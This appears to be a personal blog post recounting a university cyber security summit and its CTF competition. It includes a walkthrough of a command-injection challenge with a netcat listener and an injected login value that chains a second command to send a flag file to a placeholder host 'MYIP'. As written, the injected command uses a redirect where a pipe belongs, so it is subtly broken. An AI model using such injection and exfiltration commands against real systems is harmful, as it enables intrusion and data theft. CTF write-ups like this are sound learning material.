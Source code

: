 ```yaml
---
layout: blog
---
```


This Saturday I had the great opportunity of participating in Virginia Tech's Cyber Security Summit, a day-long event which included a guest speaker and CTF competition.  Having been competing in CTFs for a few months now I thought this would be a great opportunity to see how these competitions are  done at higher, more advanced levels, and how the subject matter of computer security is applied.

The guest speaker for the event did a great job of detailing how a variety of web attacks can have real-life implications in industrial plants and businesses.  He used multiple intuitive Windows tools and managed to easily own multiple systems using vulnerabilities inherent in thousands of sensitive applications on the web, a process I found very interesting and frightening at the same time.

Although this was a great insight on the real world of computer security and the issues it brings when neglected, the fun began with the CTF competition. Since I have never done an in-person CTF, only on-line qualifiers, I had no idea what to expect and came in with high hopes.  I was not dissapointed in the slightest, as this was a very well-designed and exciting competition.

The organizers of the event began by posting a single IP address on the whiteboard, which when put into a web browser brought up a blank page.  After some thinking and playing around we realized that the IP was an internal one in the building network, as it was very simple and started with a 10, and so we decided to use `nmap` to find IPs with similar starting digits.  We found about 7 different IPs and those led to challenges and the scoring site.  I think the way they decided to start the CTF was very resourceful, taking advantage of the physical location, and set the stage for the rest of the competition.

## Magical netcat

My four-person team managed to solve two of the challenges to finish in 4th place. I mostly worked on the challenge hosted on server 16, and consisted of a simple HTML login with no information and a title saying "Create a Shell Account!".  Whatever was submitted to the login field returned a screen saying that the account was created.  Although at first we were stumped on what to do with the challenge, as it was invulnerable to SQL injections, a few hints dropped by the organizers led us to think that maybe the login could be used as a full linux shell.

I realized after that revelation that the script was simply inputing the login information from the field into the bash command `useradd`, and so by adding a semicolon to the end of the command, `useradd;`, we would be able to execute any bash command. The only problem was that after execution the page simply stated that the account was created and gave no mention as to what the command did or what output it produced.  After considering few different ways of overcoming this dilema, I decided that setting up a `netcat` service to listen on my computer and then pipe the result from the login into netcat to my computer would be the most efficient way to see the results.  After exploring the filesystem by executing `ls` for a few minutes I found the `flag.txt` file, completing the challenge.  The commands I ended up using were these:

Laptop: `netcat -l 8080 > flag.txt`

Server (Username field): `a; cat ../../../../flag.txt > ncat MYIP 8080`

Overall I found the event to be a great experience, allowing me to see how computer security ties into real life and also providing my team and I with an amazingly fun and entertaining CTF. Thanks to everyone who organized it and I can't wait to attend next year!
